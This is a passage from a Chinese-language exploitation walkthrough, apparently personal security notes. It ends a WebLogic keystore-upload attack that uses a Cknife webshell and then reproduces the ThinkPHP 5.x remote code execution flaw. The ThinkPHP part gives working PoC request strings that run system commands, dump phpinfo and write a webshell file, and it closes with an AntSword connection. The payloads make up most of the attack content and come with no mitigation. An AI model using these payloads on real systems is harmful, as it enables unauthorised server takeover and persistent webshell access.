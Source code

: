 访问页面  http://ipconfig:7001/ws_utc/css/config/keystore/[时间戳]_[文件名]

![image-20200903171052389](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200903171052389.png)

Cknife连接 

![image-20200903171301957](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200903171301957.png)



### ThinkPHP5 5.0.22/5.1.29 远程代码执行漏洞

##### 漏洞简介及影响范围

ThinkPHP是一款运用极广的PHP开发框架。其版本5中，由于没有正确处理控制器名，导致在网站没有开启强制路由的情况下（即默认情况下）可以执行任意方法，从而导致远程命令执行漏洞。

2018年12月10日中午，thinkphp官方公众号发布了一个更新通知，包含了一个`5.x`系列所有版本存在被getshell的高风险漏洞。

##### 利用过程

环境搭建

![image-20200904100308339](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200904100308339.png)

执行poc   

```
index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=command
```

![image-20200904100222867](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200904100222867.png)

获取php信息

```
index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1
```

![image-20200904100613329](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200904100613329.png)

写入文件  直接写入一句话 

POC /index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=shell.php&vars[1][]=加你要写入的文件内容url编码 

![image-20200904102359481](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200904102359481.png)

![image-20200904102434007](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200904102434007.png)

蚁剑连接

![image-20200904102618843](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200904102618843.png)



